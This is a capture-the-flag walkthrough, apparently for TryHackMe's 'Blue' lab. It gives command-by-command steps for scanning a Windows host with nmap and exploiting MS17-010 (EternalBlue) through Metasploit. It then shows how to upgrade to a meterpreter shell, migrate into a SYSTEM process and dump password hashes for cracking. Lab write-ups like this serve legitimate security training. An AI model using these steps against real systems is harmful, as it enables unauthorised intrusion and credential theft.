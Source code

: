 # Blue

## Exploiting windows machine using eternal blue on metasploit

before you start launch your openvpn server or run this command in linux

```
sudo openvpn yourfile.ovpn
```
to make it quicker to access the virtual machine, save its IP as a variable
```
export IP=10.10.2.1
```
then you can call the IP very quickly with $IP

example where this could be helpful

```
ping $IP
```

## Recon

first scan with Nmap to find vulnerabiltites

```
nmap -sV -vv --script vuln $IP
```

the vulnerability we found was ms17-010, also known as eternal blue.

## Gain access

start metasploit console

```
msfconsole
```

The explot we will run against the VM is Eternal blue, so the code for that is

```
use exploit/windows/smb/ms17_010_eternalblue
```

You will need to change the host IP. To do that you can use set and change the hosts IP to your local machine found in Tryhackme.com/access. Mine is 10.9.2.22 for example.

```
set rhosts 10.9.2.22
```
then run the exploit

```
run
```

if you want to run this session in the background you can with:
```
ctrl + z
```

## Escalate

### how to upgrade shell in metasploit

Having our recent eternal blue exploit in the background, we can move forward to convert our shell to meterpreter shell

first, check our session has worked

```
sessions -l
```

this should list our sessions and it should be there under session 1. If it's not there, then we have to back to the start of gain access and try again.

We need to run our meterpreter shell against our first session

so with our shell in the background run
```
use post/multi/manage/shell_to_meterpreter
```
now we have to change the MODULE_PATH to find our previous eternal blue session

To do that show the options with:
```
show options
```

You should see there is a parameter called SESSION that needs to be set

```
set SESSION 1
```
 This should tell us to read from the eternal blue session
 and now..

```
run
```
we should be in the Windows machine as NT AUTHORITY\SYSTEM

we can check by opening a DOS command line using
```
shell
```
now we are in the DOS. Type in:
```
whoami
```

Now, we need to list all processes so we can migrate to a process to escalate our priveledge and gain full access

run ps command to see all processes
```
 ps
```
now we can look for a process that is running as NT AUTHORITY and migrate to its process number (the number on the far left)
```
migrate 3056
```
We are in.

## Cracking

Now we are in the machine, we can run:
```
hashdump
```
to show all passwords the users on this machine

now we can crack Jon's password by trying crackstation or Kali's hashidenitfier.


## Find the flags

to be updated...




